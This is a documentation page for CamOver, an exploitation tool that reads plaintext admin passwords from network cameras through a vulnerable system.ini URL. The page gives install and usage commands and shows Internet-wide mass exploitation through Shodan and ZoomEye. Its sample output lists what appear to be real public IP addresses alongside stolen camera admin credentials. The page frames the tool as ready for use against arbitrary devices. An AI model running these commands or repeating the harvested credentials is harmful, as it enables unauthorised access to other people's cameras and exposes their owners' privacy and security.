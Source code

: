 ```yaml
---
title : "CamOver"
# pre : ' '
description : "CamOver is a camera exploitation tool that allows to disclosure network camera admin password."
date : 2021-07-06T11:40:36+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CamOver

Is a camera exploitation tool that allows to disclosure network camera admin password.

**Features:**

* Exploits vulnerabilities in most popular camera models such as CCTV, GoAhead and Netwave.
* Optimized to exploit multiple cameras at one time from list with threading enabled.
* Simple CLI and API usage.

Tool effectively looks for `http://{address}/system.ini?loginuse&loginpas` and reads the `username:password` plaintext from the `system.ini` file.

### Installation

```plain
python3 -m pip install git+https://github.com/EntySec/CamOver
```

### Usage

```plain
camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

### Flags

```plain
CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

#### Exploiting single camera

Let's hack my camera just for fun.

```plain
camover -a 192.168.99.100
```

#### Exploiting cameras from Internet

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```plain
camover -t --shodan [API-KEY]
```

```plain
$ camover -t --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (84.99.151.248:81) - admin:SFR_2E98
[+] (37.116.187.4:81) - admin:Bebbo000
[+] (42.118.152.148:80) - admin:admin
[+] (37.108.23.82:99) - admin:Misiek22!
[+] (59.29.194.241:81) - admin:core7772
[+] (212.127.221.137:80) - admin:quercus2403
[+] (118.71.30.128:80) - admin:admin
[+] (201.188.20.77:80) - admin:216828103
[+] (86.41.122.211:88) - admin:IPCAM
[+] (187.155.117.123:80) - admin:123456
[+] (151.63.22.212:81) - admin:242893
[+] (200.126.178.171:81) - admin:888888
```

#### Exploiting cameras from input file

Let's try to use opened database of cameras with -t for fast exploitation.

```plain
camover -t -i cameras.txt -o passwords.txt
```

NOTE: It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

### URL list

* [Github.com - CamOver](https://github.com/EntySec/CamOver)
